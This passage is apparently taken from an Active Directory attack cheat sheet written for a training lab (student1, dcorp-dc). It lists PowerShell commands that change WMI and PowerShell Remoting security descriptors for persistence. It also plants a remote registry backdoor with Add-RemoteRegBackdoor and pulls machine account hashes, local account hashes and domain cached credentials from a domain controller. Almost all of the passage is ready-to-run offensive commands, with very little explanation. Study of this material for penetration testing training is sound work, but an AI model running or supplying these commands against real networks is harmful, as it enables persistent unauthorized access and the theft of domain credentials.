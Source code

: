 ##### On a remote machine for student1 without explicit credentials
```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```

##### On a remote machine with explicit credentials.
```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose
```

##### Remove Permissions
```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose
```

#### Security Descriptors - PowerShell Remoting

Not stable after August 2020

##### On Local Machine
```powershell
Set-RemotePSRemoting -SamAccountName student1 -Verbose
```

##### On a Remote Machine without Credentials 
```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose
```

##### Remove Permissions on a Remote Machine
```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
```

#### Security Descriptors - Remote Registry

##### Use RACE or DAMP with admin privs on Remote Machine
```powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose
```

##### Retrieve Machine Account Hash
```powershell
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
```

##### Retrieve Local Account Hash
```powershell
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
```

##### Retrieve Domain Cached Credentials
```powershell
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```
